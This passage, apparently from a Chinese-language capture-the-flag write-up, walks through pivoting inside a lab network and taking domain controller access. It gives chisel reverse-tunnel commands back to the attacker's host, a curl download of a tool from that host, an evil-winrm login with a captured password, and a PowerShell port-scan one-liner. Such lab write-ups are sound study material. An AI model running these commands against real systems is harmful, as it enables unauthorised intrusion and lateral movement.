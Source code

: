 **存在 5985 端口，也就是 evil-winrm 工具攻击的端口**

搭建内网隧道工具，代理出内网中 172.16.22.1 主机 5985 端口

```shell
# 靶机
./chisel client 10.10.16.2:7777 R:5985:172.16.22.1:5985

# kali
./chisel_1.8.1_linux_386 server --reverse -p 7777
```

![](https://i.328888.xyz/2023/04/12/iX8y0H.png)

之后使用工具连接获取域控权限: `sudo evil-winrm -i 10.10.16.2 -u matthew -p '147258369'`

![](https://i.328888.xyz/2023/04/12/iX8l1A.png)

获取 user.txt

![](https://i.328888.xyz/2023/04/12/iX8SKQ.png)

# window 域控提权

## window 端口

**命令行扫描端口（慢）**

```shell
1..10000 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.11.205",$_)) "Port $_ is open!"} 2>$null
```

命令行查看端口（快）

```shell
netstat -ano | findstr "LISTENING"
```

## 内网隧道 chisel 转发端口

```shell
# 上传 chisel
curl 10.10.16.2/chiselamd64.exe -o chisel.exe

# 靶机上执行
./chisel.exe client 10.10.16.2:1111 R:1080:socks
# kali 上执行
./chisel_1.8.1_linux_386 server --reverse -p 1111
```

kali 机器走 127.0.0.1:1111 socket5 代理，即可访问域控服务

![](https://i.328888.xyz/2023/04/15/i7r6Eq.png)
